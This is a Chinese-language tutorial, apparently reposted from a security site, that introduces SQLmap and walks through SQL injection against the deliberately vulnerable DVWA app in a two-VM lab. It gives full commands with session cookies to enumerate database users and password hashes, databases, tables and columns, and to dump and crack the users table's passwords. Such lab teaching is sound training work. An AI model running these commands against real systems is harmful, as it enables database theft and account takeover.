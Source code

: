 ```yaml
---
title: SQL注入之SQLmap入门
date: 2017-09-27 14:34:41
categories:
tags:
---
```

###什么是SQLmap？

**SQLmap是一款用来检测与利用SQL注入漏洞的免费开源工具，有一个非常棒的特性，即对检测与利用的自动化处理（数据库指纹、访问底层文件系统、执行命令）。**
<!-- more -->
读者可以通过位于SourceForge的官方网站下载SQLmap源码：[http://sourceforge.net/projects/sqlmap/](http://sourceforge.net/projects/sqlmap/)

###SQLmap的作者是谁？
Bernardo DameleAssumpcao Guimaraes (@inquisb)，读者可以通过[bernardo@sqlmap.org](mailto:bernardo@sqlmap.org)与他取得联系，以及Miroslav Stampar (@stamparm)读者可以通过[miroslav@sqlmap.org](mailto:miroslav@sqlmap.org)与他联系。

同时读者也可以通过dev@sqlmap.org与SQLmap的[所有开发者](http://www.freebuf.com/sectool/77948.html)联系。

###执行SQLmap的命令是什么？
进入sqlmap.py所在的目录，执行以下命令：
```
#python sqlmap.py -h
```
（译注：选项列表太长了，而且与最新版本有些差异，所以这里不再列出，请读者下载最新版在自己机器上看吧）

SQLmap命令选项被归类为目标（Target）选项、请求（Request）选项、优化、注入、检测、技巧（Techniques）、指纹、枚举等。

###如何使用SQLmap：
为方便演示，我们创建两个虚拟机：
```
1、受害者机器， windows     XP操作系统，运行一个web服务器，同时跑着一个包含漏洞的web应用（DVWA）。

2、攻击器机器，使用Ubuntu     12.04，包含SQLmap程序。
```
本次实验的目的：使用SQLmap得到以下信息：
```
3、枚举MYSQL用户名与密码。

4、枚举所有数据库。

5、枚举指定数据库的数据表。

6、枚举指定数据表中的所有用户名与密码。
```
使用SQLmap之前我们得到需要当前会话cookies等信息，用来在渗透过程中维持连接状态，这里使用Firefox中名为“TamperData”的add-on获取。

![图片.png](http://upload-images.jianshu.io/upload_images/977602-e18fb96794c1671a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
当前得到的cookie为“**security=high;PHPSESSID=57p5g7f32b3ffv8l45qppudqn3**″。
为方便演示，我们将DVWA安全等级设置为low：
[![SQL入门](http://upload-images.jianshu.io/upload_images/977602-cd88f314864cdb6b.png!small?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](http://image.3001.net/images/20140326/13958006297369.png)
接下来我们进入页面的“SQL Injection”部分，输入任意值并提交。可以看到get请求的ID参数如下：
```
“http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#”
```
因此该页面就是我们的目标页面。

以下命令可以用来检索当前数据库和当前用户：
```
“./sqlmap.py -u“http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit” –cookie=”PHPSESSID=57p5g7f32b3ffv8l45qppudqn3;security=low” -b –current-db –current-user”
```
###使用选项：
1、–cookie : 设置我们的cookie值“将DVWA安全等级从high设置为low”
2、-u : 指定目标URL
3、-b : 获取DBMS banner
4、–current-db : 获取当前数据库
5、–current-user:获取当前用户
结果如下：
[![SQL入门](http://upload-images.jianshu.io/upload_images/977602-c1802858ad60b172.png!small?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](http://image.3001.net/images/20140326/13958006473538.png)
可以看到结果如下：
```
DBMS : MySQLversion 5.0
OS versionUbuntu 12.04
current user:root
current db :DVWA
```
以下命令用来枚举所有的DBMS用户和密码hash，在以后更进一步的攻击中可以对密码hash进行破解：
```
“sqlmap.py -u“http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit” --cookie=”PHPSESSID=57p5g7f32b3ffv8l45qppudqn3;security=low” --string=”Surname” --users --password”
```
使用选项：
1、–string : 当查询可用时用来匹配页面中的字符串
2、–users : 枚举DBMS用户
3、–password : 枚举DBMS用户密码hash
[![SQL入门](http://upload-images.jianshu.io/upload_images/977602-b882a16abd540ca0.png!small?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](http://image.3001.net/images/20140326/13958006501262.png)
结果如下：
```
databasemanagement system users [142]:
[*] ”@’kingasmk’
[*]”@’localhost’
[*]‘debian-sys-maint’@'localhost’
[*]‘phpmyadmin’@'localhost’
[*]‘root’@’127.0.0.1′
[*] ‘root’@'::1′
[*]‘root’@'kingasmk’
[*]‘root’@'localhost’
```
数据库管理系统用户和密码hash：
```
[*]debian-sys-maint [1]:
password hash:*C30441E06530498BC86019BF3211B94B3BAB295A
[*] phpmyadmin[1]:
password hash:*C30441E06530498BC86019BF3211B94B3BAB295A
[*] root [4]:
password hash: *C30441E06530498BC86019BF3211B94B3BAB295A
password hash:*C30441E06530498BC86019BF3211B94B3BAB295A
password hash:*C30441E06530498BC86019BF3211B94B3BAB295A
password hash:*C30441E06530498BC86019BF3211B94B3BAB295A
```
读者可以使用Cain&Abel、John&Ripper等工具将密码hash破解为明文。以下命令会枚举系统中所有的数据库schema：
```
“sqlmap.py -u“http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit”
--cookie=”PHPSESSID=57p5g7f32b3ffv8l45qppudqn3;security=low” --dbs”
```
使用选项：
–dbs: 枚举DBMS中的数据库

[![SQL入门](http://upload-images.jianshu.io/upload_images/977602-269f1ef498a338aa.png!small?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](http://image.3001.net/images/20140326/13958006531974.png)
结果如下：
```
availabledatabases [5]:
[*]dvwa
[*]information_schema
[*]mysql
[*]performance_schema
[*]phpmyadmin
```
下面我们尝试枚举DVWA数据表，执行以下命令：
```
“sqlmap.py-u “http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit” --cookie=”PHPSESSID=57p5g7f32b3ffv8l45qppudqn3;security=low” -D dvwa --tables”
```
使用选项：
1、-D : 要枚举的DBMS数据库
2、–tables     : 枚举DBMS数据库中的数据表
[![SQL入门](http://upload-images.jianshu.io/upload_images/977602-a23c72c8461a5bc1.png!small?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](http://image.3001.net/images/20140326/13958006567924.png)
得到结果如下：
```
Database: dvwa
[2 tables]
+————+
| guestbook |
| users |
+————+
```
下面获取用户表的列，命令如下：
```
 “sqlmap.py -u“http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit” --cookie=”PHPSESSID=57p5g7f32b3ffv8l45qppudqn3;security=low” -D dvwa -T users --columns”
```
使用选项：
-T : 要枚举的DBMS数据库表

–columns : 枚举DBMS数据库表中的所有列

[![SQL入门](http://upload-images.jianshu.io/upload_images/977602-32256a0dbe738288.png!small?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](http://image.3001.net/images/20140326/139580065727.png)
结果如下：
```
Database: dvwa
Table: users
[6 columns]
+————+————-+
| Column | Type|
+————+————-+
| avatar |varchar(70) |
| first_name |varchar(15) |
| last_name |varchar(15) |
| password |varchar(32) |
| user |varchar(15) |
| user_id |int(6) |
+————+————-+
```
如上所示，以上为我们感兴趣的列，表示用户名与密码等。下面将每一列的内容提取出来。执行以下命令，将用户与密码表中的所有用户名与密码dump出来：
```
“sqlmap.py -u“http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit”–cookie=”PHPSESSID=57p5g7f32b3ffv8l45qppudqn3; security=low” -D dvwa -T users-C user,password --dump”
```
**使用选项：**
-T : 要枚举的DBMS数据表

-C: 要枚举的DBMS数据表中的列

–dump : 转储DBMS数据表项

SQLmap会提问是否破解密码，按回车确认：
[![SQL入门](http://upload-images.jianshu.io/upload_images/977602-3de5d38d6beae65b.png!small?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](http://image.3001.net/images/20140326/13958006608637.png)
得到所有用户名与明文密码如下：
```
Database: dvwa
Table: users
[5 entries]
+———+———+———————————————+
| user_id | user| password |
+———+———+———————————————+
| 1 | admin | 5f4dcc3b5aa765d61d8327deb882cf99(password) |
| 2 | gordonb |e99a18c428cb38d5f260853678922e03 (abc123) |
| 3 | 1337 |8d3533d75ae2c3966d7e0d4fcc69216b (charley) |
| 4 | pablo |0d107d09f5bbe40cade3de5c71e9e9b7 (letmein) |
| 5 | smithy |5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+———+———+———————————————+
```

这时我们就可以利用admin帐户登录做任何事了。

总结：
SQLmap是一个非常强大的工具，可以用来简化操作，并自动处理SQL注入检测与利用。

原文地址：http://www.freebuf.com/articles/web/29942.html



